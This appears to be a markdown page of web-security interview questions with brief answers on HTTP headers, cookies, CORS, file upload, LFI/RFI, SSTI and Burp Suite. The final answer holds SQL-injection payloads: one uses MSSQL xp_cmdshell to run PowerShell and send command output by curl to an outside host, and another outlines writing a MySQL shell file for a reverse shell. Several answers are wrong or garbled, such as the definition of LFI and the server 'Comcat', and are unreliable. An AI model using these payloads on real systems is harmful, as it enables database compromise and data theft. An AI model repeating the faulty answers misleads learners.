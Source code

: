 - ### What is serialization and deserialization?
 Serialization is a mechanism of converting the state of an object into a byte stream. Deserialization is the reverse process where the byte stream is used to recreate the actual Java object in memory. 
 
- ### Which model provide new tabs in google? 
 DOM-BOM 
 
- ### Who provide the headers in http request? 
 Browser & developer 
 
- ### What are 2 headers original in the request, and which part provide it? 
 Referer & origin , browser 
 
- ### What are HTTP headers? 
Host, Referer, origin, Content-Length, Cookie, User-Agent
 
- ### What is Same-site cookies? 
SameSite prevents the browser from sending this cookie along with cross-site requests. The main goal is to mitigate the risk of cross-origin information leakage. 

- ## What are CORS attacks? 
 - basic origin reflection
 - trusted null origin trusted 
 - insecure protocols(subdomain) 

- ### Can you find xss on login page? 
Yes , on response 

- ### What are security chains you can find from file upload? 
RCE - XSS - XXE - path traversal - SQLI - DDOS 

- ### What is the difference between LFI & RFI? 
Remote File Inclusion (RFI) is a type of vulnerability found in PHP running websites or web servers. The RFI is enabling an attacker to include the remotely hosting file however through scripting on the website servers and vulnerability occurring due to usage of its user-supplied user input without final validations through it. local file inclusion (LFI) is uploading malicious files to web servers via web browsers. The two vectors have to reference both in the file inclusions attacks. 

- ### What is the difference between 5*5 = 25 & = 5555 on SSTI? 
it depends on the template engine 

- ### How do you do crowling with burpsuite? 
Sitemap, spidering 

- ### What are servers? 
Comcat, apache 

- ### How to get RCE from SQLI with different types? 
[MSSQL] After enabling the xpcmdshell, I pinged my http-server using **;EXEC xpcmdshell ‘ping xxxxxxxx.ngrok.io’; — and got a response. Awseome! As you can see from the command below, the output of the command in PowerShell is sent to my HTTP server using curl. I used the command whoami, and got the response “ntservice\mssqlserver” ;EXEC xp_cmdshell ‘powershell -c “$x = whoami; curl [http://xxxxxx.net/get?output=$x] (http://xxxxxx.net/get?output=%24x)"';--** 
to enable  xpcmdshell : EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"

[MYSQL] Injecting the command @@datadir into the sql query to check where the sql is running on the server to get the full path of its location on the server. create a shell file and access it from the SQL from web to get reverse shell.
